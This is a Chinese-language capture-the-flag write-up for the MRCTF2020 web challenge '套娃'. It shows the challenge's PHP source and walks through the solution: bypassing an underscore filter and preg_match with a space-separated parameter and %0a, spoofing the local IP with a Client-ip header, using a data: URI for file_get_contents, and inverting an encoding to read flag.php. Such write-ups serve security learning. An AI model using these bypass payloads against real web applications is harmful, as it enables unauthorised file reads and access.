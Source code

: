 # \[MRCTF2020]套娃

## \[MRCTF2020]套娃

## 考点

* PHP参数污染
* PHP的字符串解析特性
* JSFuck

## wp

F12看到源码

```php
//1st
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

`$_SERVER['QUERY_STRING']`是请求附带的参数，不能有`_`，但是后一段代码要求GET参数`b_u_p_t`，这是PHP的参数污染问题，用<mark style="color:orange;">`b[u[p[t`</mark>，发现不行，那还可以用<mark style="color:red;">`空格`</mark>或者<mark style="color:red;">`.`</mark>。又要求参数不等于23333，但是要和它长得一模一样，则可以使用%0a绕过`preg_match`

payload：`b u p t=23333%0a`

来到下一层`secrettw.php` ，F12看到一堆JSFuck编码，放到控制台执行，给了提示`post me Merak`

![](<../../.gitbook/assets/image (5) (1) (1).png>)

POST Merak可以得到源码

```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>  
```

IP限制可以使用`Client-ip: 127.0.0.1`绕过，`file_get_contents($_GET['2333'])`可以使用`php://input`或者`data:text/plain,todat is a happy day`绕过，最后再反写`change`函数就可以了

`change`函数的加密逻辑就是 `C = P + 2x`，反过来不难写出解密逻辑

```php
function dechange($v){ 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    return base64_encode($re); 
}
```

flag.php的密文为`ZmpdYSZmXGI=`

![](<../../.gitbook/assets/image (1) (1) (1).png>)

## 小结

1. [利用PHP的字符串解析特性Bypass](https://www.freebuf.com/articles/web/213359.html)
2. 对于本地IP的绕过，可以使用`X-Forwarded-For`或者`Client-ip`
